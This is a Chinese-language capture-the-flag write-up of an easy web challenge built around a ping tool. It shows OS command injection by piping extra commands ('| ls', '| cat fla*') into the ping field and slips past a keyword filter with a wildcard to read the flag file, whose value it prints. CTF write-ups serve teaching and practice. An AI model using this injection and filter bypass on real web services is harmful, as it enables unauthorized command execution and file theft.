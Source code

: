 # ?CTF 2025 Platform(公开赛道) [Week1] 前端小游戏 (难度：Easy)
**Writer：DreamLost（QQ ID：Scarlet Secret）**<br>
**Solve Time: 2025-10-05 01:59:33**<br>
**Rank #155**<br>
## 题目背景
给你一个ping工具，然后狠狠的想办法ping我吧！<br>

## 解题思路
前端经典ping，这大概率是直接透过工具直接访问shell<br>
利用Bash管道同时执行ping和ls命令得：

```bash
ping 127.0.0.1 | ls
flag.txt
index.php
```

如果我们直接cat flag.txt则会返回：
```bash
ping 127.0.0.1 | cat flag.txt
输入包含敏感内容，已被过滤！
```

既然确定了是shell（无论是bash还是什么），我们都可以尝试一下通配符“*”帮我们自动补全：
```bash
ping 127.0.0.1 | cat fla*
flag{a34f2f80-b562-4e78-8000-69a1515088f7}
```
轻松加愉快~
